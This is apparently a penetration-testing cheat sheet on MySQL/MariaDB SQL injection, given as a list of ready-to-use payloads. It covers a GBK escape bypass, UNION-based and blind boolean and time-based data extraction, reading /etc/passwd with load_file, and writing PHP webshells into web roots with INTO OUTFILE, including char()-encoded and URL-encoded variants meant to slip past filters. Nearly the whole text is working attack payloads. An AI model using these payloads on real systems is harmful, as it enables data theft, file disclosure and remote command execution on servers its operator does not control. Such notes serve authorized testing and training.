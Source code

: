 ```yaml
---
title: MySQL/Maria Injection
parent: SQL Injection
layout: default
nav_order: 1
---
```


## Connecting
`mysql -h xx -u root`\
(add `-p` if password needed. Use `127.0.0.1`, not locahost then use `-P` to specify port)

## Querying / Exploiting
For MySQL/MSSQL: `select @@version` can return the version, others will error

`%09` can be used in case space is filtered. Of course comments can also.

`\xBF'` or URL encoded `%bf%27` to create a single quote that won't be escaped properly. (only in GBK) Example: `admin%bf%27%20or%201=1%20--+`

`sleep(5)` will delay 5 seconds

check can how many columns: `order by x`, keep on increasing until error. last number will be number of columns

Concatenating (concatenate put 2 together, group concatenate put all the values in one column as one): `concat(name1,":",name2)` or `group_concat(column_name)`

To comment, use `xx-- `\
(got space in the end, important)

Show all **databases**: `select schema_name from information_schema.schemata;`\
OR `show databases;`\
show the database in the current one: `select database()`

Show the **table name** and which database it is from, for a database call xx: `select table_name, table_schema from information_schema.tables where table_schema='xx'`

Show the **column name** if table name is yy: `select column_name,table_schema from information_schema.columns where table_name='yy'`

Finally to retrieve the info use `select bb, cc from xx.yy`

See which user logged in: `select user()`

Check if got superuser privilege: `select super_priv from mysql.user where user="xx"`

Check privilege in detailed: `select grantee, privilege_type from information_schema.user_privileges`

Read file from OS: `select load_file("/etc/passwd")`\
(Can attempt to load the current php page to disclose sensitive info using default path like /var/www/html/xx.php) **USE DOUBLE SLASH FOR WINDOWS IF FAIL**

Check secure file privileges: `SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"`\
(Empty=can read/write everywhere. If got a folder name means only read/write from there. NULL=read/write nowhere)

Write file into OS (must have FILE privilege, secure_file_priv not enabled, and write access to the server): `select "xxx" into outfile "/var/html/www/test.php"`\
(c:/xampp/htdocs/ can try too) USE DOUBLE SLASH FOR WINDOWS IF FAIL

For example to write webshell, can use\
`select "", "<?php system($_REQUEST[0]); ?>","" into outfile "/var/www/html/test.php"`

One example of full writing webshell to Windows (bypassing waf/encoding):\
`UNION SELECT char(60,63,112,104,112,32,115,121,115,116,101,109,40,36,95,82,69,81,85,69,83,84,91,48,93,41,59,32,63,62) INTO OUTFILE "C:\\wamp\\www\\PHP\\shell1.php"`

Another webshell example tested on MariaDB using the encoded version: \
Text: `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php' -- `\
Encoded: `%27+UNION+SELECT+%28%22%3C%3Fphp+echo+passthru%28%24_GET%5B%27cmd%27%5D%29%3B%22%29+INTO+OUTFILE+%27C%3A%2Fxampp%2Fhtdocs%2Fcmd.php%27+--+`

**Blind boolean based**: First still try to establish the number of columns (order by x/union select null,null..). Once established, use the following (if eg previously is 3 columns) to get **database name**: `union select null,null,null where database() like '%';-- `\
after that `union select null,null,null where database() like 'a%';-- `\
and keep on until you get database name.\
To get **table name**, use `union select null,null,null from information_schema.tables where table_schema = 'dbname' and table_name like 'a%';-- `\
Finally to get **column name**, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%';-- `\
To remove as there are **multiple columns**, use `union select null,null,null from information_schema.columns where table_schema='dbname' and table_name='tablename' and column_name like 'a%' and column_name!='notthis';-- `\
**After getting all details**, use the following to extract the information `union select 1,2,3 from dbname.tablename where columnname like 'a%';-- `\
Repeat for multiple column names.

**Blind time based**: Almost same as blind boolean. First establish number of columns while setting one of them to `sleep(5)`, and keep on adding until you get a different response time which means that is the correct number of columns. Example: `union select sleep(5),null;-- `. After that just follow blind boolean based.

